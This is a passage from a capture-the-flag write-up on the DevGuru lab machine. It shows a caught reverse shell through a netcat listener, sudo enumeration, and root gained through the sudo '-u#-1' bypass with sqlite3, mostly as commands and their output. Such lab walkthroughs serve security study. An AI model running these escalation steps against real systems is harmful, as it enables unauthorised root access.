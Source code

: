 Now we have a shell with frank's privileges.

```bash
root@kali:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.166] 56758
bash: cannot set terminal process group (600): Inappropriate ioctl for device
bash: no job control in this shell
frank@devguru:~/gitea-repositories/s4rgaz/test.git$ id
frank@devguru:~/gitea-repositories/s4rgaz/test.git$ script -qc /bin/bash /dev/null
<ies/s4rgaz/test.git$ script -qc /bin/bash /dev/null
frank@devguru:~/gitea-repositories/s4rgaz/test.git$
```

By listing sudo permissions we cannot execute sqlite3 as root.

```bash
frank@devguru:~/gitea-repositories/s4rgaz/test.git$ sudo -l
sudo -l
Matching Defaults entries for frank on devguru:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User frank may run the following commands on devguru:
    (ALL, !root) NOPASSWD: /usr/bin/sqlite3
```

A vulnerability exists regarding this setting in versions of sudo prior to 1.8.28, we can check it by consulting the version of sudo. 

```bash
frank@devguru:~/gitea-repositories/s4rgaz/test.git$ sudo --version
sudo --version
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
```

## Privilege Escalation
### Sudo Security Bypass

As we can see the current version of sudo is vulnerable because doesn't check for the existence of the specified user id and executes with arbitrary user id with the sudo priv -u#-1 returns as 0 which is root's id.

To bypass these restrictions I was guided in the [GTFOBINS](https://gtfobins.github.io/gtfobins/sqlite3/#sudo) article, so I used the following instruction to get root.

```bash
frank@devguru:~/gitea-repositories/s4rgaz/test.git$ sudo -u#-1 sqlite3 /dev/null '.shell /bin/sh'
<.git$ sudo -u#-1 sqlite3 /dev/null '.shell /bin/sh'
# id
id
uid=0(root) gid=1000(frank) groups=1000(frank)
# python3 -c "import os; os.setuid(0); os.setgid(0); os.system('/bin/bash')"
python3 -c "import os; os.setuid(0); os.setgid(0); os.system('/bin/bash')"

root@devguru:~/gitea-repositories/s4rgaz/test.git# cd /root
cd /root
root@devguru:/root# ls
ls
msg.txt  root.txt
root@devguru:/root# cat msg.txt
cat msg.txt

           Congrats on rooting DevGuru!
```
